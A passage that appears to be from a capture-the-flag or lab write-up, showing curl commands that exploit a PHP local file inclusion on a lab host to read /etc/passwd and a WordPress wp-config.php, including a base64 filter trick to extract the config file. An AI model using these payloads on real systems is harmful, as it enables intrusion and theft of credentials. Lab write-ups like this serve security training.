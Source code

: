 
```c
curl "172.16.1.10/nav.php?page=php://filter/read=/resource=/etc/passwd"
```
This can show the passwords, lets check the wp-config.php file too....
```c
curl "172.16.1.10/nav.php?page=php://filter/read=/resource=/var/www/html/wordpress/wp-config.php"
```

```c
curl "172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php"| base64 -d > wp-config.php
```
Had to do the base64, just reading didnt work....